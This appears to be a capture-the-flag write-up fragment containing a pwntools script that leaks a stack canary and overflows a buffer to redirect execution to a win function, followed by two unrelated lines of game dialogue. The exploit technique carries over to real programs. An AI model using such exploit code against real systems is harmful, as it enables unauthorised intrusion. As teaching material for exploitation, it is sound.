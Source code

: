 Using the following exploit script, we leak the canary and exploit the buffer overflow to call the later function:
```python
from pwn import *
import argparse

context.arch = 'amd64'
context.bits = '64'
context.endian = 'little'

if __name__ == "__main__":
    parser = argparse.ArgumentParser()

    subparsers = parser.add_subparsers(dest='command')

    parser_local = subparsers.add_parser('local')

    parser_remote = subparsers.add_parser('remote')
    parser_remote.add_argument('host')
    parser_remote.add_argument('port', type=int)

    parser.add_argument('-b', '--binary', help='local binary path', required=True)

    args = parser.parse_args()

    if args.command == 'local':
        p = process(args.binary)
    elif args.command == 'remote':
        p = remote(args.host, args.port)
    else:
        parser.print_help()
        exit(1)

    binary = ELF(args.binary)

    win_ea = binary.symbols.duck_attack

    off_to_canary_1 = 88+32
    off_to_canary_2 = 88
    should_land_ptr = off_to_canary_1+1-32
    payload = b"A"*should_land_ptr
    payload += b"Quack Quack "
   
    print(len(payload), payload)
    p.recvuntil(b"Quack the Duck!\n\n> ", timeout=1)

    p.send(payload)

    p.recvuntil(b'Quack Quack ')
    leak_str = p.recvline().strip().split(b', ready')[0].replace(b"A"*(off_to_canary_1+1-len(b"Quack Quack ")), b"")[:7]
    print(leak_str)
    canary_leak = u64(b"\x00" + leak_str)
    print('[+] canary = ', hex(canary_leak))

    payload = b'A'*off_to_canary_2
    payload += p64(canary_leak)
    payload += b'A'*8
    payload += p64(win_ea)


    p.send(payload)

    p.interactive() # will print flag
```

[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!
